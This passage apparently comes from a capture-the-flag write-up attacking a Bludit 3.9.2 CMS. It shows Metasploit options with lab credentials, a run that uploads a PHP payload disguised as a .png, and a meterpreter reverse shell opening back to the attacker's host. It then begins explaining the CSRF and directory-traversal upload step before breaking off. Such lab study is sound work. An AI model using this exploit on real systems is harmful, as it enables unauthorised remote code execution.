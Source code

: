 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/bludit_upload_images_exec

msf6 > use exploit/linux/http/bludit_upload_images_exec
```
Now we can set options accordingly:
```
msf6 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```
Now if we run the exploit we get a meterpreter session:  
```
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading cDgYmMchPH.png...
[*] Uploading .htaccess...
[*] Executing cDgYmMchPH.png...
[*] Sending stage (39282 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.10.10.191:37696 ) at 2022-04-19 14:24:52 +0200

meterpreter >
```
Now, as always let's reverse the exploit to gain our own shell. Let's set the proxy for the exploit and analyze how it works request by request.  
In the first steps, we see that the exploit calls index.php in order to grab CSRF token as we did in our init_session() function.  
then , the exploit calls ```/admin/ajax/upload-images``` and tries to send a nasty php script in a .png format, setting the uuid value to ```../../tmp```, we can assume that this is the directory traversal vulnerability and the specified folder is the place where the file will be uploaded.  
```
```
